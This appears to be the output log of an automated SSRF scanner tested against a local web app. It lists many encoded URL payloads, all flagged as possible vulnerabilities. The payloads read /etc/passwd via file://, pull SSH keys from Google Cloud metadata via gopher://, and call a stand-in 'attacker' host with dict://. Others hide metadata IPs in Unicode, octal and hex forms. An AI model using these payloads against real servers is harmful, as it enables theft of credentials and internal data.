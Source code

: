  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%91%AF%E2%91%A5%E2%91%A7%E2%91%A8%E2%91%A5%E2%91%A5%E2%91%A1%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%91%AF%E2%91%A5%E2%91%A7%E2%91%A8%E2%91%A5%E2%91%A5%E2%91%A1%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%91%AF%E2%91%A5%E2%91%A7%E2%91%A8%E2%91%A5%E2%91%A5%E2%91%A1%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%91%A3%E2%91%A2%E2%91%A4%E2%91%A0%E2%91%A7%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%91%A3%E2%91%A2%E2%91%A4%E2%91%A0%E2%91%A7%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=dict%3A%2F%2Fattacker%3A11111`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=dict%3A%2F%2Fattacker%3A11111` _(POST)_
- Testing: `http://localhost:4200/?url=file%3A%2F%2F%2Fetc%2Fpasswd`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=file%3A%2F%2F%2Fetc%2Fpasswd` _(POST)_
- Testing: `http://localhost:4200/?url=file%3A%2F%2F%5C%2F%5C%2Fetc%2Fpasswd`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=file%3A%2F%2F%5C%2F%5C%2Fetc%2Fpasswd` _(POST)_
- Testing: `http://localhost:4200/?url=file%3A%2F%2Fpath%2Fto%2Ffile`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=file%3A%2F%2Fpath%2Fto%2Ffile` _(POST)_
- Testing: `http://localhost:4200/?url=gopher%3A%2F%2Fmetadata.google.internal%3A80%2FxGET%2520%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fssh-keys%2520HTTP%252f%2531%252e%2531%250AHost%3A%2520metadata.google.internal%250AAccept%3A%2520%252a%252f%252a%250aMetadata-Flavor%3A%2520Google%250d%250a`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=gopher%3A%2F%2Fmetadata.google.internal%3A80%2FxGET%2520%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fssh-keys%2520HTTP%252f%2531%252e%2531%250AHost%3A%2520metadata.google.internal%250AAccept%3A%2520%252a%252f%252a%250aMetadata-Flavor%3A%2520Google%250d%250a` _(POST)_
- Testing: `http://localhost:4200/?url=gopher%3A%2F%2Fnozaki.io%2F_SSRF%250ATest!`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=gopher%3A%2F%2Fnozaki.io%2F_SSRF%250ATest!` _(POST)_
- Testing: `http://localhost:4200/?url=0.0.0.0%3A22`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0.0.0.0%3A22` _(POST)_
- Testing: `http://localhost:4200/?url=0.0.0.0%3A443`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0.0.0.0%3A443` _(POST)_
- Testing: `http://localhost:4200/?url=0.0.0.0%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0.0.0.0%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=0.0.0.0%3A3389`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0.0.0.0%3A3389` _(POST)_
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A22`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000%3A%3A1%3A22` _(POST)_
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A25`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000%3A%3A1%3A25` _(POST)_
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A3128`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000%3A%3A1%3A3128` _(POST)_
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A3389`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0000%3A%3A1%3A3389` _(POST)_
- Testing: `http://localhost:4200/?url=0251.00376.000251.0000376`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0251.00376.000251.0000376` _(POST)_
- Testing: `http://localhost:4200/?url=0x41414141A9FEA9FE`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0x41414141A9FEA9FE` _(POST)_
- Testing: `http://localhost:4200/?url=0xA9.0xFE.0xA9.0xFE`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0xA9.0xFE.0xA9.0xFE` _(POST)_
- Testing: `http://localhost:4200/?url=0xA9FEA9FE`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0xA9FEA9FE` _(POST)_
- Testing: `http://localhost:4200/?url=0xa9fea9fe`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0xa9fea9fe` _(POST)_
- Testing: `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2F`